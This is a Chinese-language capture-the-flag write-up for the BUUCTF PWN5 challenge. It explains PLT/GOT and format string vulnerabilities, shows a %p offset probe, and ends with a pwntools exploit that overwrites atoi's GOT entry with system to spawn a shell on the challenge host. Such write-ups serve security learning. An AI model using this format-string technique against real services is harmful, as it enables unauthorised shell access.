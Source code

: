 # BUUCTF-PWN-[第五空间2019 决赛]PWN5

这题考到格式化字符串的方法 我之前没有学过 根据wp写完这题去看看原理

下载打开环境

checksec看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/dabee577681c25e7a16f747959b68d50.png" alt="" style="max-height:212px; box-sizing:content-box;" />


发现有三个保护 nx打开 所以无法写入shellcode

现在看看ida32



<img src="https://i-blog.csdnimg.cn/blog_migrate/c5bd0252300de1a42c15381fd2e78f37.png" alt="" style="max-height:448px; box-sizing:content-box;" />


发现/bin/sh

进去看



<img src="https://i-blog.csdnimg.cn/blog_migrate/1ad995790c105f594750d4f159297748.png" alt="" style="max-height:635px; box-sizing:content-box;" />


发现就在主函数里面

我们进行代码审计 发现输入名字 他会返回名字 然后再输入密码 如果密码和unk_804c044一样 输出shellcode

我们看看这个函数是什么

搜索一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/9a9902bf17c4b0a64bb585d1a15860ec.png" alt="" style="max-height:132px; box-sizing:content-box;" />




发现是随机数 这样我们就无法通过判断得到shellcode

我们现在又两个方法

## 1. 将atoi的判断变为system 然后手动输入/bin/sh

这样他就会在判断的时候进行执行shellcode

我们开始查找

在这之前我们需要了解 got和plt



<img src="https://i-blog.csdnimg.cn/blog_migrate/46001666609740d1ca7465053e15cd17.png" alt="" style="max-height:247px; box-sizing:content-box;" />


因为我们需要plt里面的shellcode进行执行

## plt和got是什么

这两个其实就是两个表 我们的函数进行执行

必须要通过这两个表去寻找 函数的真正地址 因为是经过

```haskell
plt ->got ->plt ->存储函数地址的函数->atoi的真正地址
```

我们在执行atoi这个函数的前面 他不会给我们函数的地址 只有运行到这个函数了

他才会给函数进行分配地址

在第一次运行该函数的时候 他就会进行上述的操作

第二次就不会了

```haskell
plt->got->atoi
```

直接就能找到

类似于中转站

继续做题

我们知道了plt和got

我们要如何构造呢



<img src="https://i-blog.csdnimg.cn/blog_migrate/88f78472d6d161d256003fd0b2cbcdda.png" alt="" style="max-height:263px; box-sizing:content-box;" />


我们发现plt中存在system和atoi



<img src="https://i-blog.csdnimg.cn/blog_migrate/5aa8fef003a1619842f9f4415bfe9e0c.png" alt="" style="max-height:104px; box-sizing:content-box;" />


而atoi又存在和我们输入的东西进行if判断

那如果我们在执行的时候 把atoi的got指向system的plt呢

```haskell
atoi.plt->atoi.got->system.plt->函数->system
```

这样我们就得到system函数

如果我们输入了/bin/sh 那他就会执行

```perl
system('/bin/sh')
```

这样就成功了

但是有一个问题 我们利用这个是通过print函数的漏洞

我们输入的东西会在调用函数前先压入栈内 我们不知道我们该什么时候进行更改

所以我们需要计算出偏移量 这里就可以使用格式化字符串

## 格式化字符串

因为这个漏洞是通过print函数出现的

因为程序员的偷懒

```python
print("%d",str)
print(str)
```

这两种看似是一样的 但是第二种就很容易出现格式化字符串漏洞

因为没有对输出字符串进行规定

我们可以一直构造 %p来查看地址

例如

```less
AAAA -%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
```

因为输出没有管理

所以他会把str 直接进行查找

查完AAAA 开始执行%p

%d 用于读取10进制数值

%x 用于读取16进制数值

%s 用于读取字符串值

%n 用于讲当前字符串的长度打印到var中，例printf（"test %hn",&var[其中var为两个字节]） printf（"test %n",&var[其中var为一个字节]）

| %p | 输出十六进制数据，区别是有前缀“0x”，实际上就是输出个指针，所以32位输出4字节，64位输出8字节 |
|:---:|:---:|





我们可以进行产生 看看有没有字符串漏洞的产生



<img src="https://i-blog.csdnimg.cn/blog_migrate/927d6f04e48f06a9d01dc42330eb7cba.png" alt="" style="max-height:75px; box-sizing:content-box;" />


我的理解是这样的

<img src="https://i-blog.csdnimg.cn/blog_migrate/828b4f939c6e72c03e36a6a6223bfab0.png" alt="" style="max-height:734px; box-sizing:content-box;" />




我们发现 到4141414 有10个量 就是他从压入栈到执行 需要10个偏移量

所以我们

我们开始写exp

```cobol
from pwn import *
p=remote('node4.buuoj.cn',25418)
elf=ELF('./pwn')
atoi_got=elf.got['atoi']
system_plf=elf.plt['system']
payload=fmtstr_payload(10,{atoi_got:system_plf})
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```